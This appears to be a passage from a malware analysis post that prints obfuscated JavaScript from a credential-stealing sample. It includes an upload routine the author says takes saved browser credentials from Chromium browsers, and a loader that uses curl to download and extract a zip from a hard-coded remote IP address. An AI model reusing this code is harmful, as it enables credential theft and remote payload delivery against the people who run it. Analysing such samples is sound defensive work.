 ```javascript
              filename: _0x52fc61 + '_' + _0x339883 + "_uld"
            };
            _0x2fff59.push({
              'value': fs.createReadStream(_0x42e5b4),
              'options': _0x5e65cd
            });
          } catch (_0x5b9116) {}
        }
      }
    } catch (_0x4ea0f6) {}
    Upload(_0x2fff59, _0x34becb);
    return _0x2fff59;
  };
```
The UpUserData function is stealing sensitive data (such as saved browser credentials) from Chrome, Edge, Brave, or other Chromium-based browsers.

<hr style="border: none; border-top: 1px solid #ccc;">


There’s a particular snippet that really confused me. It’s the one below:
```javascript
const runP = () => {
    const _0x5cb48f = tmpDir + "\\p.zi";
    const _0x35655e = tmpDir + "\\p2.zip";
    if (It >= 51476596) {
      return;
    }
    if (fs.existsSync(_0x5cb48f)) {
      try {
        var _0x4a8b2a = fs.statSync(_0x5cb48f);
        if (_0x4a8b2a.size >= 51476596) {
          It = _0x4a8b2a.size;
          fs.rename(_0x5cb48f, _0x35655e, _0x5b657c => {
            if (_0x5b657c) {
              throw _0x5b657c;
            }
            extractFile(_0x35655e);
          });
        } else {
          if (It < _0x4a8b2a.size) {
            It = _0x4a8b2a.size;
          } else {
            fs.rmSync(_0x5cb48f);
            It = 0;
          }
          Ht();
        }
      } catch (_0x1d221b) {}
    } else {
      ex("curl -Lo \"" + _0x5cb48f + "\" \"" + "http://45.61.133.110:1224/pdown" + "\"", (_0x43e299, _0x3dea55, _0x1ca9fd) => {
        if (_0x43e299) {
          It = 0;
          return void Ht();
        }
        try {
          It = 51476596;
          fs.renameSync(_0x5cb48f, _0x35655e);
          extractFile(_0x35655e);
        } catch (_0x3b7ec9) {}
      });
    }
  };
```